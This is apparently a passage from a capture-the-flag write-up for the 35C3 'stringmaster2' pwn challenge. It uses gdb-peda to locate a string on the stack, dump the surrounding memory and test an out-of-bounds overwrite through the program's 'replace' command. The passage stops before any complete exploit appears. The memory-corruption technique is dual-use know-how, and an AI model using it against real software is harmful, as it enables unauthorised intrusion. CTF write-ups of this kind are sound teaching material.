 ```
Aa187
```
This indicates that it has found an "A" or `0x41` at index 184 and replaced it with "a" or `0x61`.

To verify this we can open the binary in gdb.

```
~$ gdb stringmaster2
...

gdb-peda$ break print_menu()
Breakpoint 1 at 0x133a
gdb-peda$ run
Starting program: /vagrant/35c3/pwn/stringmaster2/stringmaster2
...
String1: gijugolusq
String2: ilgjuibreg
...
```
Now we started the program so we need to find the address at which `String1` is.

```
gdb-peda$ find gijugolusq
Searching for 'gijugolusq' in: None ranges
Found 2 results, display max 2 items:
[stack] : 0x7fffffffe3b0 ("gijugolusq")
[stack] : 0x7fffffffe3f0 ("gijugolusq")
```
For some reason there are two occurences of that sting on the stack but a quick look at the dissasembly of `play()` shows that the first string at `0x7fffffffe3b0` is being used.

Let's inspect the memory around this location:
```
gdb-peda$ x/10gx 0x7fffffffe3b0
0x7fffffffe3b0:	0x756c6f67756a6967	0x00007ffff7007173
0x7fffffffe3c0:	0x00007fffffffe3d0	0x000000000000000a
0x7fffffffe3d0:	0x726269756a676c69	0x0000555555006765
0x7fffffffe3e0:	0x00007fffffffe3f0	0x000000000000000a
0x7fffffffe3f0:	0x756c6f67756a6967	0x00007ffff7007173
0x7fffffffe400:	0x00007fffffffe410	0x0000000000000007
0x7fffffffe410:	0x006563616c706572	0x0000555555556671
```
We will try to overwrite the 4 bytes at `0x7fffffffe41c`. They currently are
`0x55` which is "U" in ASCII. "U" is not defined in the alphabet thus will never be in String1 and since it is a printable ASCII char it is easy for us to enter it.

```
gdb-peda$ continue
Enter the command you want to execute:
[1] swap <index1> <index2>                   (Cost: 1)
[2] replace <char1> <char2>                  (Cost: 1)
[3] print                                    (Cost: 1)
[4] quit                                              
> replace U A
UA42
gdb-peda$ continue
...
> replace U A
UA43
gdb-peda$ continue
...
> replace U A
UA44
gdb-peda$ continue
...
> replace U A
UA45
```